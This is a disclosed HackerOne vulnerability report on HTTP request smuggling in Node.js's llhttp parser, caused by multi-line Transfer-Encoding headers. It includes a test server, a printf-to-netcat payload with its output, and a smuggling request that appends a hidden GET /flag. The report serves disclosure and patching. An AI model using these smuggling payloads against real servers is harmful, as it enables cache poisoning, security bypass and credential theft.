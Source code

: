 # HTTP Request Smuggling Due to Incorrect Parsing of Multi-line Transfer-Encoding

## Report Details
- **Report ID**: 1501679
- **URL**: https://hackerone.com/reports/1501679
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-03-06T03:45:25.040Z
- **Disclosed**: 2022-07-07T17:26:25.203Z

## Reporter
- **Username**: zeyu2001
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** 
The `llhttp` parser in the `http` module in Node v17.6.0 does not correctly handle multi-line `Transfer-Encoding` headers. This can lead to HTTP Request Smuggling (HRS).

**Description:**
When  Node receives the following request:

```http
GET / HTTP/1.1
Transfer-Encoding: chunked
 , identity

1
a
0


```

it processes the final encoding as `chunked`. Relevant code [here](https://github.com/nodejs/llhttp/blob/master/src/llhttp/http.ts#L483).

Since Node accepts multi-line header values (defined as `obs-fold` in [RFC7230](https://datatracker.ietf.org/doc/html/rfc7230), the `Transfer-Encoding` header is actually `chunked , identity`. An upstream proxy that correctly implements multi-line header values will therefore process the final encoding as `identity` instead. This could lead to request smuggling as an `identity` header indicates that the body length is 0 - the upstream proxy and Node will disagree on where a request ends.

The current behaviour is in violation of RFC7230 section 3.2.4, which states:

```
A server that receives an obs-fold in a request message that is not
within a message/http container MUST either reject the message by
sending a 400 (Bad Request), preferably with a representation
explaining that obsolete line folding is unacceptable, or replace
each received obs-fold with one or more SP octets prior to
interpreting the field value or forwarding the message downstream.
```

While Node correctly replaces each received `obs-fold` with SP octets, in the case of the `Transfer-Encoding` header it does not do so **prior to interpreting the field value**.

**Note:** This could be seen as an incomplete fix to #1002188, though it is a slightly different issue. The fix for #1002188 processed subsequent `Transfer-Encoding` headers, only setting the `chunked` encoding if the last `Transfer-Encoding` header is `chunked`. This should be extended to check for subsequent lines of the same `Transfer-Encoding` header.

## Steps To Reproduce:

**Testing Server**

Run the following server (`node server.js`):

```javascript
const http = require('http');

http.createServer((request, response) => {
   let body = [];
   request.on('error', (err) => {
   response.end("error while reading body: " + err)
   }).on('data', (chunk) => {
      body.push(chunk);
   }).on('end', () => {
   body = Buffer.concat(body).toString();
   
   response.on('error', (err) => {
      response.end("error while sending response: " + err)
   });

   response.end(JSON.stringify({
         "Headers": request.headers,
         "Length": body.length,
         "Body": body,
      }) + "\n");
   });
}).listen(80);
```

**Payload**

```bash
printf "GET / HTTP/1.1\r\n"\
"Transfer-Encoding: chunked\r\n"\
" , identity\r\n"\
"\r\n"\
"1\r\n"\
"a\r\n"\
"0\r\n"\
"\r\n" | nc localhost 80
```

**Output**

```http
HTTP/1.1 200 OK
Date: Sun, 06 Mar 2022 03:34:05 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 77

{"Headers":{"transfer-encoding":"chunked , identity"},"Length":1,"Body":"a"}
```

This shows the invalid parsing of the `Transfer-Encoding` header.

**Note:** In the case of #1002188, the following payload demonstrates the same scenario (except a duplicate `Transfer-Encoding` header is replaced with a multi-line one)

```http
POST / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked
 , chunked-false

1
A
0

GET /flag HTTP/1.1
Host: 127.0.0.1
foo: x


```

## Supporting Material/References:

Payloads and outputs:
{F1644164}
{F1644165}

Server code:
{F1644163}

## Impact

Depending on the specific web application, HRS can lead to cache poisoning, bypassing of security layers, stealing of credentials and so on.

## Attachments
- server.js
- ss1.png
- ss2.png
